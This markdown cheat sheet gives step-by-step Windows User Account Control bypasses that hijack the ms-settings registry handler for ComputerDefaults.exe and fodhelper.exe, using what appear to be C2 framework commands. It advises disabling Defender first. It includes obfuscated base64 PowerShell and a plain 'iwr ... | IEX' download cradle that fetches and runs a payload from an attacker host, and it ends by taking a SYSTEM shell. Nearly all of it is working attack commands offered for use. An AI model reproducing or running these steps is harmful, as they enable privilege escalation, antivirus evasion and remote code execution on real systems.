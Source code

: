# User Account Control (UAC) Bypass.

#### TIP: Disabling defender before running getsystem is ideal

## ComputerDefaults

### 1) Create registry for ComputerDefaults

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    sharpsh -- -e -c TmV3LUl0ZW0gIkhLQ1U6XHNvZnR3YXJlXGNsYXNzZXNcbXMtc2V0dGluZ3Ncc2hlbGxcb3Blblxjb21tYW5kIiAtRm9yY2U=

### 2) Add property

    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    sharpsh -- -e -c TmV3LUl0ZW1Qcm9wZXJ0eSAiSEtDVTpcc29mdHdhcmVcY2xhc3Nlc1xtcy1zZXR0aW5nc1xzaGVsbFxvcGVuXGNvbW1hbmQiIC1OYW1lICJEZWxlZ2F0ZUV4ZWN1dGUiIC1WYWx1ZSAiIiAtRm9yY2U=

### 3) Add another property with powershell code to be executed

    execute -o powershell 'Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA==" -Force'

### 4) Run the process

    execute -o powershell 'Start-Process "C:\Windows\System32\ComputerDefaults.exe"'

### 5) Check privs

    execute -o whoami /priv
    sa-whoami

### 6) Get system shell

    getsystem

## FodHelper

### 1) Create registry for Fodhelper

    New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (iwr http://10.10.10.11/hav0c-ps.txt -usebasicparsing) | IEX" -Force
    sharpsh -- -e -c TmV3LUl0ZW0gLVBhdGggSEtDVTpcU29mdHdhcmVcQ2xhc3Nlc1xtcy1zZXR0aW5nc1xzaGVsbFxvcGVuXGNvbW1hbmQgLVZhbHVlICJwb3dlcnNoZWxsLmV4ZSAoaXdyIGh0dHA6Ly8xOTIuMTY4LjQ1LjE5NC9oYXYwYy1wcy50eHQgLXVzZWJhc2ljcGFyc2luZykgfCBJRVgiIC1Gb3JjZQ==

### 2) Create registry for Fodhelper

    New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
    sharpsh -- -e -c TmV3LUl0ZW1Qcm9wZXJ0eSAtUGF0aCBIS0NVOlxTb2Z0d2FyZVxDbGFzc2VzXG1zLXNldHRpbmdzXHNoZWxsXG9wZW5cY29tbWFuZCAtTmFtZSBEZWxlZ2F0ZUV4ZWN1dGUgLVByb3BlcnR5VHlwZSBTdHJpbmcgLUZvcmNl

### 3) Run Fodhelper

    execute -o powershell 'Start-Process "C:\Windows\System32\fodhelper.exe"'

### 4) Check privs

    execute -o whoami /priv
    sa-whoami

### 5) Get system shell

    getsystem
